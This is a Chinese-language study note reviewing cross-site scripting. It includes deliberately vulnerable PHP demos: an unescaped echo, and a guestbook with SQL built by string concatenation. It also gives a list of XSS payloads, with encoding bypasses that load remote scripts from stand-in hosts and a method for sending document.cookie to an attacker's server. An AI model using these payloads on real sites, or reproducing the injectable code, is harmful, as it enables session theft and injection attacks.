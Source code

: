 # xss复习笔记
说来也巧，感觉自己啥都还没开始学大学三年就这么过去了，悔恨交加。趁着这几天不知道干啥，复习一下xss，主要练习一下各种payload的使用及其效果。
## 关于自己以前的疑惑
以前看大佬博客，关于xss的教程就是列举个弹窗，当时还感觉一个弹窗没啥子意义，总感觉掌握不到大神们所指的精髓，但是xss探究的多了你会发现，当你能够弹窗的时候，你的攻击就已经成功了99%了。
## start
### 0x00
xss的触发无非就那么几种，一种是表单形式的提交（一般此类型的都为存储性的xss，危害较大），还有一种较为常见的就是我们小白入门时看到的url中直接提交xss语句，浏览器给一弹窗的反射型xss（相对来说较难利用，看你自己的脑洞有多大）。另外呢，还有flash型的xss，还没怎么了解过，暂时不提。还有dom型的xss，了解过，后边略提一下。
### 0x01
先来个基础的demo.php
```php
<?php
$name = $_GET['name'];
echo "your name is ".$name

```
一个所有教程里边都会有的例子，浏览器访问：`http://localhost/xss/demo.php?name=<script>alert('xss')</script>`。如下图，这是最简单的触发条件。

<img src="http://www.timewhile.com/tuba/Sc1.png">
这也就是所谓的反射型xss，利用反射型xss能干些什么？盗取用户的cookie以及其他信息.      

再来个基础的demo2.php
```php
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>xss</title>
</head>
<body>
<h1>demo</h1>
<form action="demo2.php" method="post">
<textarea name="mess" rows="10" cols="50"></textarea>
<input type=submit>
</form>
</body>
</html>
<?php
    $user="";
    $pass="";
    $host="localhost";
    try{
        $conn = new PDO("mysql:host=$host;dbname=xss",$user,$pass);
    }
    catch(PDOException $e){
	echo $e->getMessage();
    }
	//echo $_POST['mess'];
	$mess = $_POST['mess'];
	if($mess){
		$mess = '"'.$mess.'"';
		$sql = "insert into guestbook(message)value($mess)";
		$conn->exec($sql);
		echo "<script>alert('留言成功')</script>";
		$sql1="select message,time from guestbook";
		$stmt = $conn->prepare($sql1);
		$stmt->execute();
		while($res=$stmt->fetch()){
			echo "time: ".$res['time']." ==> ";
			echo "  message: ".$res['message']."<br>";
		}
	}
	$conn = null;

```
然后我们插入我们最基本的payload来看下效果
<img src="http://www.timewhile.com/tuba/Sc2.png">
### 0x01
下边我们来进入主题，测试一些我们常见的payload，已及它们在js中是干什么的。  
#### 类似于alert的js函数
* prompt: 提示消息框
* confirm: 确认消息框
#### 关于iframe
在html中，他被用来创建一个内联框架。
如：`<iframe src="javascript:alert(/xss/)">`
在实际应用中，我们可以这样来获取cookie` <IFRAME SRC="javascript:document.write('<script src=http://x.x.x.x/x.js></script>')"></IFRAME>`
#### 关于object data
object在html标签中是添加一个对象，利用data属性可以直接加载js代码
如：`<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">`
在实际应用中，我们只需要将后边的base64编码换成自己的payload就可以。
*注:data只支持base64*
#### js中的常见on事件
js中有150个on事件，下面列举的是常见的一些
* onerror: 在加载错误的时候触发
* onclick:在鼠标点击时触发
* onload: 在页面或图片加载完后会立刻发生
* onchange:此属性适用于`<input>``textarea``<select>`.
* onfocus:在对象获得焦点时发生
* onmouseover:当鼠标指针移动到标签上时触发。
* ondrag:在`<p>`元素开始拖动时触发
对于on事件的利用：
svg:
标签在html中是可缩放矢量图形，使用xml格式定义图像。
最常见的payload：`<svg onload=alert('xss')>`
img:
html中的图片标签，类似的还有video,audio效果一样
如`<img src=1 onerror=alert('1')>`
#### bypass技巧
javascript非常的灵活，引号内的内容可编码项很多，这里，我们拿` <iframe src="javascript:'<script src=//1.1.1.1/1.js></script>'"><iframe>`来讲
+ url编码: ` <iframe src="javascript:'%3Cscript%20src=//1.1.1.1/1.js%3E%3C/script%3E'"></iframe>`
+ unicode:` <iframe src="\u006a\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003a\u0027\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u0020\u0073\u0072\u0063\u003d\u002f\u002f\u0031\u002e\u0031\u002e\u0031\u002e\u0031\u002f\u0031\u002e\u006a\u0073\u003e\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0027"></iframe>`
+ jsfuck: `<iframe src="jsfuck"></iframe>`,jsfuck代码可以直接在F12控制台执行。
+ String.fromCharCode: `<iframe src="javascript:eval(String.fromCharCode(39,60,115,99,114,105,112,116,32,115,114,99,61,47,47,49,46,49,46,49,46,49,47,49,46,106,115,62,60,47,115,99,114,105,112,116,62,39)"></iframe>`
+ hex: `<iframe src="hex编码"></iframe>`
+ escape: ` <iframe src="javascript:%27%3Cscript%20src%3D//1.1.1.1/1.js%3E%3C/script%3E%27"></iframe>`
+ base64: 参考object
### 关于获取cookie
首先，经过测试找到合适的payload（就是找到可以弹窗的xss语句），利用document.cookie把cookie发送到攻击者（自己）的服务器（xss平台）。

## 参考  
* [xss'or](http://xssor.io/)
* [freebuff](http://www.freebuf.com/articles/web/116825.html)
* [91ri.org](http://www.91ri.org/14489.html)